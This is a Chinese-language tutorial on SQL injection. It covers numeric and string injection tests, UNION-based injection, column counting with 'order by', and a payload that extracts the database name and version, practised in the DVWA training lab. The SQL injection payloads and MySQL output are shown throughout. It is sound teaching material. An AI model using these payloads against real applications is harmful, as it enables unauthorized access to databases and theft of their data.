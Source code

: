 ```yaml
---
slug: /net-security/06/01
---
```


SQL 注入漏洞：没有对输入做一个校验和过滤，使得输入变为 SQL 语句并执行。

SQL 注入条件：

1. 参数对用户来说可控
2. 参数最终会作为数据库查询语句之一



## 类型

### 数字型

输入的参数为整型时，若存在注入漏洞，称为**数字型注入**漏洞。测试步骤：

1. 加单引号，对应 URL：`www.test.com/test.php?id=1’`

   对应的 SQL 语句：`select * from table where id=1’;` 查询出错，则可能存在漏洞。

2. 加 `and 1 = 1`，对应 URL：`www.test.com/test.php?id=1 and 1 = 1;`

   对应的 SQL 语句：`select * from table where id = 1 and 1 = 1;`。 查询正常，则增加存在漏洞可能性。

3. 加 `and 1 = 2`，对应 URL：`www.test.com/test.php?id = 1 and 1 = 2;`

   对应的 SQL 语句：`select * from table where id = 1 and 1 = 2;` 查询失败，则确定漏洞存在。 



### 字符型

输入参数为字符串时，若存在注入漏洞，成为**字符型注入**漏洞。测试步骤：

尝试输入 `1' or 1 = 1#`

对应的 SQL 语句：`select * from table where id='1' or 1 = 1 #'`，如果查询得到所有数据，则确定漏洞存在。

<br />

在 DVWA 靶场环境中，可以在 SQL Injection 练习：

![](http://img.wukaipeng.com/2023/0922-080220-image-20230922080219805.png)



### Union 注入

`union` 可以联合查询多个表：

```sql
mysql> select first_name, last_name from users where user_id = 1 union all select first_name, last_name from users where user_id = 2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | Brown     |
+------------+-----------+
2 rows in set (0.00 sec)
```

`union` 查询的表的列数要一致。

注入的时候可以用  `order by 2` 去知道后端查询语句有多少列：`1' order by  2#`

`order by <number>` 这里是根据查询结果中的某列进行排序，如果 `number` 大于查询出来的列出，那么会报错：

```sql
# 根据结果第一列进行排序 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 1 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Bob        | Smith     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第二列进行排序，正常 ✅
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 2 #'
    -> ;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
| Bob        | Smith     |
+------------+-----------+
5 rows in set (0.00 sec)

# 根据结果第三列进行排序，报错 ❌
mysql> select first_name, last_name from users where user_id = '1' or 1 = 1 order by 3 #'
    -> ;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'
```

构造 `union` 语句获取数据库名称和版本：`1' union select database(), version() ;#`

![](http://img.wukaipeng.com/2023/0922-085205-image-20230922085204940.png)



























